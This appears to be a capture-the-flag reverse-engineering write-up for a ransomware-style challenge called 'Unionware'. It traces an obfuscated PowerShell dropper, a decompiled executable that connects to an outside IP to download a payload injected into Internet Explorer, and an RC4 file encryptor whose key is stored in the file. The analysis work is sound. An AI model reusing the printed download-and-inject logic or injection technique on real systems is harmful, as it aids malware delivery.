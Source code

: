 # **Unionware**

### **Description:**

![image0](images\image0.png)

### **Part 1: powershell file analysis**

This is an obfuscate form of powershell, used `spit()` . Write scripts to get content clearly. Then we will have the file  `lnELKNdoie .exe`

### **Part 2: `lnELKNdoie.exe` file analysis**

At the beginning of the file there is `checkVM` function and some other checks, I choose next directly through these checks.

![image1](\images\image1.png)

Enter `conn`  function, because the file used `xor obfuscate`, I debug to know function to be called, explain to `conn`:

```c
// 
v6 = ((int (__cdecl *)(int, int *, int, int))ws2_32_WSAStartup(514, &v40, a3, a4);
// get info of this addr 35.241.159.62 --> 62.159.241.35.bc.googleusercontent.com
((int (__stdcall *)(__m128i *, int, _DWORD *, void (**)(void)))ws2_32_getaddrinfo)(&v38, dword_40A3F8, v41, &v39);
// socket
    s = (const CHAR *)((int (__stdcall *)(_DWORD, _DWORD, _DWORD, __m128i *))ws2_32_socket)(*((_DWORD *)v39 + 1),*((_DWORD *)v39 + 2),*((_DWORD *)v39 + 3),v48);
// conn addr above
((int (__stdcall *)(const CHAR *, _DWORD, _DWORD))ws2_32_connect)(s,*((_DWORD *)v35 + 6),*((_DWORD *)v35 + 4));
// send: "KADMKLAFD:LSM$OPM@FLK:FM!N$@N$"
((int (__stdcall *)(const CHAR *, __m128i *, int, _DWORD))ws2_32_send)(s,&v28,&v28.m128i_i8[strlen(v28.m128i_i8) + 1] - &v28.m128i_i8[1],0)
 // recv
((int (__stdcall *)(const CHAR *, _BYTE *, int, _DWORD))ws2_32_recv)(s, buf, 1024, 0);
// shutdown
(int (__stdcall *)(const CHAR *, int))ws2_32_shutdown)(s, 1);
```

receive data until  `size == 0x6B200`:

![image2](\images\image2.png)

The downloaded file will be Injected into IE, this Inject technique is quite similar [link](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking)

### **Part 3: phân tích file `out.exe`**

The file will look in the folder `Document` file plaintext:

```c
  v14 = SHGetFolderPathA(0, 5, 0, 0, pszPath);
  j_strncat(pszPath, "\\j3w3ls", 8u);           // //Documents//j2w3ls
```

process `encrypt data`:

![image3](\images\image3.png)

Enter `encrypt`  function, we will see many functions that define the functions in the `cryptopp` library, and then create `key 128bytes` by `random` function with seed at the time of `encrypt` :

![image4](\images\image4.png)

Struct file:

- The first 128 bytes are the key RC4
- The other is the ciphert text

Writing a simple script to recover the original file is going to have the `flag`.

### Reference

[RC4.c](https://gist.github.com/rverton/a44fc8ca67ab9ec32089)
